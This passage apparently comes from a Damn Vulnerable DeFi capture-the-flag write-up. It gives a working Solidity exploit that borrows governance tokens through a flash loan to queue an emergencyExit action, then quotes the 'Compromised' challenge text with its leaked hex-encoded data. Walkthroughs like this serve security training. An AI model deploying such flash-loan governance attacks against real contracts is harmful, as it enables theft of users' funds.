 <br/>

```solidity
contract Exploit is IERC3156FlashBorrower {
    uint256 constant TOKENS_IN_POOL = 1_500_000e18;
    SimpleGovernance immutable governance;
    SelfiePool immutable pool;
    address immutable recovery;
    uint256 actionId;

    constructor(SimpleGovernance _governance, SelfiePool _pool, address _recovery) {
        governance = _governance;
        pool       = _pool;
        recovery   = _recovery;
    }

    function setup(address token) public {
        pool.flashLoan(IERC3156FlashBorrower(this), token, TOKENS_IN_POOL, "");
    }

    function win() public {
        governance.executeAction(actionId);
    }

    function onFlashLoan(address, address token, uint256, uint256, bytes calldata) public returns (bytes32) {
        DamnValuableVotes(token).delegate(address(this));
        actionId = governance.queueAction(address(pool), 0, abi.encodeCall(SelfiePool.emergencyExit, (recovery)));
        DamnValuableVotes(token).approve(address(pool), TOKENS_IN_POOL);
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
}
```

## 7. Compromised
```
While poking around a web service of one of the most popular DeFi projects in the space, you get a strange response from the server. Here’s a snippet:


HTTP/2 200 OK
content-type: text/html
content-language: en
vary: Accept-Encoding
server: cloudflare

4d 48 67 33 5a 44 45 31 59 6d 4a 68 4d 6a 5a 6a 4e 54 49 7a 4e 6a 67 7a 59 6d 5a 6a 4d 32 52 6a 4e 32 4e 6b 59 7a 56 6b 4d 57 49 34 59 54 49 33 4e 44 51 30 4e 44 63 31 4f 54 64 6a 5a 6a 52 6b 59 54 45 33 4d 44 56 6a 5a 6a 5a 6a 4f 54 6b 7a 4d 44 59 7a 4e 7a 51 30

4d 48 67 32 4f 47 4a 6b 4d 44 49 77 59 57 51 78 4f 44 5a 69 4e 6a 51 33 59 54 59 35 4d 57 4d 32 59 54 56 6a 4d 47 4d 78 4e 54 49 35 5a 6a 49 78 5a 57 4e 6b 4d 44 6c 6b 59 32 4d 30 4e 54 49 30 4d 54 51 77 4d 6d 46 6a 4e 6a 42 69 59 54 4d 33 4e 32 4d 30 4d 54 55 35


A related on-chain exchange is selling (absurdly overpriced) collectibles called “DVNFT”, now at 999 ETH each.

This price is fetched from an on-chain oracle, based on 3 trusted reporters: 0x188...088, 0xA41...9D8 and 0xab3...a40.

Starting with just 0.1 ETH in balance, pass the challenge by rescuing all ETH available in the exchange. Then deposit the funds into the designated recovery account.
```